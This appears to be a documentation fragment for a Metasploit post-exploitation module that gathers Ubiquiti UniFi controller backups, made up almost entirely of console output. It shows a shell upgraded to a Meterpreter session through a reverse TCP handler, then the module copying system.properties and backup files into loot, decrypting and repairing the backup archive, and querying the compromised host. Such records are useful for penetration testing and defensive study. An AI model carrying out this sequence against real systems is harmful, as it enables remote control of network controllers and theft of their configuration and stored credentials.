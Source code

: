 ```
[*] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
resource (unifi.rb)> sessions -u 1
[*] Executing 'post/multi/manage/shell_to_meterpreter' on session(s): [1]
[*] Upgrading session ID: 1
[*] Starting exploit/multi/handler
[*] Started reverse TCP handler on 1.1.1.1:4433 
[*] Sending stage (985320 bytes) to 2.2.2.2
[*] Meterpreter session 2 opened (1.1.1.1:4433 -> 2.2.2.2:37124) at 2019-03-10 15:58:25 -0400
[*] Command stager progress: 100.00% (773/773 bytes)
```

#### Module

```
resource (unifi.rb)> use post/multi/gather/ubiquiti_unifi_backup
resource (unifi.rb)> set verbose true
verbose => true
resource (unifi.rb)> set session 2
session => 2
resource (unifi.rb)> run

[*] File /var/lib/unifi/system.properties saved to /root/.msf4/loot/20190310155835_default_2.2.2.2_ubiquiti.system._487688.txt
[+] Read UniFi Controller file /var/lib/unifi/system.properties
[-] Directory doesn't exist: /data/autobackup
[+] Found backup folder: /var/lib/unifi/backup
[+] File /var/lib/unifi/backup/5.10.19.unf saved to /root/.msf4/loot/20190310155836_default_2.2.2.2_ubiquiti.unifi.b_802011.unf
[+] File 5.10.19.unf DECRYPTED and saved to /root/.msf4/loot/20190310155836_default_2.2.2.2_ubiquiti.unifi.b_933774.zip.  File needs to be repair via `zip -FF`
[*] Attempting to repair zip file (this is normal)
[+] File /var/lib/unifi/backup/5.10.19.unf DECRYPTED and REPAIRED and saved to /root/.msf4/loot/20190310155836_default_2.2.2.2_ubiquiti.unifi.b_271407.zip.
[*] Post module execution completed
```

#### Details

```
msf post(multi/gather/ubiquiti_unifi_backup) > sessions -i 2
[*] Starting interaction with 2...

meterpreter > getuid
Server username: uid=1000, gid=1000, euid=1000, egid=1000
meterpreter > sysinfo
Computer     : 2.2.2.2
OS           : Ubuntu 18.04 (Linux 4.18.0-16-generic)
Architecture : x64
BuildTuple   : i486-linux-musl
Meterpreter  : x86/linux
meterpreter > background
[*] Backgrounding session 2...
msf post(multi/gather/ubiquiti_unifi_backup) > loot

Loot
====

host           service  type                                      name                                                          content          info                                                   path
----           -------  ----                                      ----                                                          -------          ----                                                   ----
```